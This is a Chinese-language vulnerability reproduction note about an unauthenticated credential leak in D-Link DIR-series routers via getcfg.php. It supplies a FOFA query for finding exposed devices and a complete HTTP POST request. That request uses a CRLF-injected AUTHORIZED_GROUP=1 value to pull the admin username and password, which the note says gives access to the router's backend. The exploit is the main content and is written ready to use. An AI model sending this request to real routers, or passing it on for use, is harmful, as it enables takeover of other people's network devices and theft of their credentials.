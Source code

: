 # D-Link Dir-645 getcfg.php 账号密码泄露漏洞

## 漏洞描述

D-Link DIR-868L B1-2.03和DIR-817LW A1-1.04路由器上有一些不需要身份验证的Web界面。攻击者可以通过SERVICES的DEVICE.ACCOUNT值以及AUTHORIZED_GROUP = 1％0a来获取getcfg.php的路由器的用户名和密码（以及其他信息）。这可用于远程控制路由器。

## 漏洞影响

> D-Link Dir 系列多个版本

## FOFA

> app="D_Link-DIR-868L"

## 漏洞复现

登录页面如下

![link-14](resource/D-Link/link-14.png)

发送如下请求包

```
POST /getcfg.php HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Length: 61

SERVICES=DEVICE.ACCOUNT&attack=ture%0D%0AAUTHORIZED_GROUP%3D1
```

![link-15](resource/D-Link/link-15.png)

获取到路由器账号密码即可登录后台